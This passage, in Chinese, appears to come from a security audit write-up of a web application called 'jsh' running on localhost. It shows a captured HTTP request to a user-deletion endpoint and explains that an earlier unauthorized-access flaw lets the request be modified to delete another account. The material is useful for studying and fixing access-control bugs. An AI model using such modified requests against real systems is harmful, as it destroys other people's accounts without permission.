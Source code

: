 登陆 jsh 账户，选择一个用户进行删除

[![](assets/1706957928-ed41e83c7795dd5d802fc1994181bfb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233711-c3e8c4c0-c117-1.png)

抓包

```plain
POST /user/deleteUser HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 7
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706618997,1706707611,1706717491; JSESSIONID=67A20DB5D3DCEF7277316B22B9D579C3; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706790058
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

ids=135
```

利用前面的未授权漏洞，修改请求，删除 132 账户

[![](assets/1706957928-c85c5fc51df1aa95c4112dda34c51c7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233723-cb6f4174-c117-1.png)
